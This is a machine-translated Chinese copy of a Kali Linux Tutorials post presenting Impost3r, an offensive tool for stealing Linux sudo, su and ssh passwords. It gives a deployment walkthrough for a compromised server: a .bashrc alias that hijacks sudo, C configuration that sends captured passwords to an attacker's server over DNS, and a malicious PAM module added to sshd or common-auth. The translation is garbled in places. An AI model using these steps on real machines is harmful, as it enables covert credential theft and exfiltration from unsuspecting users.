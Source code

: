 # impost 3r:Linux 密码窃贼

> 原文：<https://kalilinuxtutorials.com/impost3r-a-linux-password-thief/>

[![Impost3r : A Linux Password Thief](img//4a687c08e84e01dca72aae6bc105a816.png "Impost3r : A Linux Password Thief")](https://1.bp.blogspot.com/-_O0iQEZGUEo/YSXHS5I4jiI/AAAAAAAAKjg/C4lzwJ-Ch6MksCsFYQ367taiQ0mrQtG4gCLcBGAsYHQ/s728/PackageDNA%2B%25281%2529.png)

**Impost3r** 是一个 c 编写的旨在窃取多种 linux 密码(包括 ssh、su、sudo)的工具，
攻击者可以利用 Impost3r 制作陷阱窃取合法用户的密码 XD。

**特性**

*   自动清洁轨道
*   使用 DNS 传输结果
*   合法用户很难感受到这种攻击

**依赖关系**

*   （同 groundcontrolcenter）地面控制中心

**用途**

Impost3r 可用于窃取密码，包括 sudo、su 和 ssh 服务。这三个服务大致可以分为两类，sudo 和 ssh/su。我将在下面讨论它们。

**盗取须藤密码**

只需要普通用户的权限，并且只能窃取当前用户的密码。

*   首先，我假设攻击者已经控制了一台服务器，并且权限是普通用户
*   然后抄原文。bashrc 文件 cp ~/。bashrc /tmp/，并将这个副本放在您喜欢的任何地方(在这种情况下，我将使用/tmp/)
*   编辑原文。bashrc，并在文件末尾添加以下句子(参数“/tmp/.impost3r”必须与您指定的以下文件名相同):

```
alias sudo='impost3r() {
if [ -f "/tmp/.impost3r" ]; then
/tmp/.impost3r "$@" && unalias sudo
else
unalias sudo;sudo "$@"
fi
}; impost3r'
```

*   然后，保存并运行`**source ~/.bashrc**`
*   之后，攻击者需要编辑 Impost3r **`/sudo/main.c` :** 的源代码

```
/*
    Custom setting
*/
# define FILENAME "/tmp/.impost3r" \\Set the location where the Impost3r is on the server you attack.
# define BACKUP_BASHRC "/tmp/.bashrc" \\Set the location where the backup .bashrc is on the server you attack.
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)
/*
    Send to server
*/
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.cache" \\Set the result file location if you want to save the result on the server 
```

*   保存源代码，并运行`**make**`
*   编译后获取. impost3r 文件。
*   将. impost3r 文件上传到目标服务器，并将其放在您指定的文件名下。
*   你应该做的最后一件事是在你的服务器(远程地址)的端口(远程端口)上运行一个 dns 服务器服务，然后等待奖励。

**演示**

![](img//ffcc4ca74596cf34605dc45fcb308498.png)

**提示**

*   当 Impost3r 成功窃取 sudo 密码时，它会自动清除它在目标服务器上留下的痕迹。

**盗取 ssh/su 密码**

窃取 ssh/su 密码与上面的 sudo 密码窃取方法不同。您需要 root 权限。这种方法可以窃取所有用户的密码。

下面以 Ubuntu 为例，Centos 也差不多，只是提到的文件位置可能略有不同

*   首先，假设攻击者控制了一台服务器，并获得了 root 权限

*   然后编辑 Impost3r 的`**/ssh_su/main.c**`源代码文件

```
/*
    Custom setting
*/
# define SSH_OR_BOTH 0 \\Set stealing mode, 0 means only steal ssh password, 1 means steal ssh and su password, the default is 0 (the difference will be mentioned later)
# define SAVE_OR_SEND 0 \\Set the method you want to apply when Impost3r get the password,(send to your server=0,save the result on the current server=1,default is send)

/*
    Send to server
*/
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server(This option is valid only when SSH_OR_BOTH is 0)
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.(This option is valid only when SSH_OR_BOTH is 0)
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.sshsucache" \\Set the result file location if you want to save the result on the server 
```

*   修改完成后，保存并执行当前目录中的“` make '”
*   获取编译后的文件 impost3r.so
*   将编译好的 impost3r.so 上传到目标服务器的`**/lib/x86_64-linux-gnu/security**`文件夹下。(不同的机器可能有不同的文件夹名称)
*   输入`**/etc/pam.d**`，然后有两种情况。如果选择的模式是只窃取 ssh 密码，那么您需要执行`**vi sshd**`并在文件末尾添加下面的语句。

```
auth optional impost3r.so
account optional impost3r.so
```

*   保存并退出，重启 sshd 服务`**service sshd restart**`
*   但是如果您选择一起窃取 ssh 和 su 密码，您需要执行`**vi common-auth**`，添加相同的语句，保存并退出，然后重启 sshd 服务
*   攻击者在其服务器上启动 dns 服务器程序，等待合法用户通过`**ssh**`登录目标服务器，或者使用`**su**`切换用户以获取密码。

**演示**

![](img//22673e9cb7e30851d30cf24b44766c2a.png)

**提示**

*   在盗取 ssh/su 密码的情况下，Impost3r 由于权限原因无法清除痕迹，需要攻击者自己清除
*   请注意，如果您设置只窃取 ssh 密码，可以保证您将几乎 100%地收到窃取的结果，但是如果您设置两者都窃取，您将不能保证您将 100%地收到结果。(选择在本地保存结果不会有这个问题，只有 dns 会)
*   不建议窃取 su 密码，因为用户的 ssh 密码与 su 密码相同。我觉得有 ssh 密码就够漂亮了。

**注意**

*   我用的 Dns 服务器 progran 是 [Fdns](https://github.com/deepdarkness/Fdns) ，我修改了一些 params，你可以在`**Fdns**`文件夹下找到修改后的源代码，用`**gcc -o dns main.c util.c**`自己编译。实际上，你可以使用任何类型的 dns 服务器，但是你使用的 dns 服务器必须能够对客户端做出 dns 响应，而不仅仅是记录 dns 请求(你还需要记录 dns 请求，否则你会丢失窃取结果)。
*   本项目编码只是为了好玩，逻辑结构和代码结构不够严谨，请不要太较真，也欢迎建议和 prs。

[**Download**](https://github.com/ph4ntonn/Impost3r)